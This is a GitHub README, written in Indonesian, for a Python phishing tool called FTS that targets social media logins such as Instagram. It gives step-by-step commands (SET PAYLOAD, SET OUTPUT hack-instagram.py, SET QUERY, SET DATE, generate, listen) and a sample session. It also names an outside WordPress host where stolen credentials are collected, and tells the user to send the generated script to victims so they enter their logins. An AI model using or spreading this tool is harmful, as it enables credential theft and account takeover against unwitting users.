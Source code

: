 <img src="https://raw.githubusercontent.com/LOoLzeC/FTS/master/img/Screenshot_2018-08-20-03-38-42-15.png"/>
############################################
<br>
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
<br>
CODENAME       : Python
<br>
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
<br>
CODED BY       : DERAY
<br>
FACEBOOK       : Deray
<br>
INSTAGRAM      : @reyy05
<br><br>
TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
<br>                                     
###########################################
<br><br>
(step satu)
<br><br>
membuat payload<br>
command contoh : SET PAYLOAD AkSIsrR.txt<br>
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!
<br><br>
(step dua)
<br><br>
memberi output(nama file payload nya<br>
command contoh : SET OUTPUT hack-instagram.py<br>
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py
<br><br>
(step tiga)
<br><br>
memberi nama query(akun apa yang ingin anda hack)<br>
command contoh : SET QUERY INSTAGRAM<br>
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY
<br><br>
(step empat)
<br><br>
memberi tanggal dan tahun<br>
contoh command : SET DATE 2018/08<br>
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08
<br><br>
(step lima)
<br><br>
generate<br>
command : generate<br>
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.
<br><br>
(step terakhir)
<br><br>
sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu
<br><br>
sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka<br>
command : listen
<br><br>
atau untuk contoh manual listening command:
<br><br>
fts> SET PAYLOAD AkSIsrR.txt<br>
PAYLOAD => AkSIsrR.txt<br>
fts> SET QUERY INSTAGRAM<br>
QUERY => INSTAGRAM<br>
fts> SET DATE 2018/08<br>
DATE => 2018/08<br>
fts> listen<br>
[*] listening..."<br>
[*] LISTENING TARGET......"<br>
ditunggu saja sampai korban memasukan log nya ^^<br><br><br>

bantuan command : help,?,show options


